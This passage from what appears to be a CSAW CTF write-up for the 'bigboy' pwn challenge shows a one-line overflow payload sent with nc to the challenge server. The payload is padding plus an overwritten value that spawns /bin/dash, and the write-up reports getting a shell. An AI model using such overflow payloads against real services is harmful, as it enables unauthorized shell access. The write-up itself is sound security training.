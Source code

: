 Let's continue :

```
c
```

Output :

<p align="center">
<img src="resources/pwn-25-bigboy/14.PNG"/>
</p>

So the /bin/dash was executed.

Now, we try this exploit remotely over a socket connexion:

```
nc pwn.chal.csaw.io 9000 <<< $(python -c "print 'aaaaaaaaaaaaaaaaaaaa\xee\xba\xf3\xca'")
```

<p align="center">
<img src="resources/pwn-25-bigboy/15.PNG"/>
</p>

Pwned ! We got the shell. And we can get the flag.

But, wait... This is not good. Whatever the command that we run through this connexion, we don't receive the output.

Let's try sending the commands on the payload directly:
